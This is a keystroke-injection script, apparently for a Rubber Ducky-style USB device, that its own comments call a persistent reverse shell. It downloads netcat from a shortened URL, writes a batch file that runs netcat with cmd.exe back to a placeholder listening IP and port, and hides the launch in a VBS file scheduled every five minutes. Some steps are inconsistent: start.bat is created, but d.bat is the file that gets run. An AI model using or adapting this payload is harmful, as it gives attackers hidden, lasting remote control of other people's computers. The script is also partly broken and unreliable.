   REM [Persistent reverse shell that runs in the background every 5 minutes.]
  REM [replace [IP] with your listening IP]
  REM [replace [PORT] with a port of your choice]
  REM [opens command window]
  GUI r
  DELAY 300
  STRING cmd
  ENTER
  DELAY 500
  REM [downloads netcat and saves it as a.exe in the folder C:\System]
  STRING cd / & mkdir System & cd System & echo (wget 'https://tinyurl.com/y88r9epk' -OutFile a.exe) > b.PS1 & powershell -ExecutionPolicy ByPass -File b.ps1
  ENTER
  DELAY 1000
  REM [creates start.bat which triggers the reverse shell]
  STRING echo START /MIN a.exe [IP] [PORT] -e cmd.exe -d ^& exit > start.bat
  ENTER
  DELAY 100
  REM [creates three lines of commands in a script file telling the start.bat file to run in the background]
  STRING echo Set WshShell = CreateObject('WScript.Shell') > c.vbs
  ENTER
  DELAY 100
  STRING echo WshShell.Run chr(34) ^& C:/System/d.bat ^& Chr(34), 0 >> c.vbs
  ENTER
  DELAY 50
  STRING echo Set WshShell = Nothing >>> c.vbs
  ENTER
  DELAY 50
  REM [schedules the script file to run every 5 minutes (change the number 5 to a different time if you need)]
  STRING schtasks /create /tn TaskSystem /tr C:/System/c.vbs /sc minute /mo 5 
  ENTER
  DELAY 75
  REM [runs start.bat and closes the command window]
  STRING d.bat & exit
  ENTER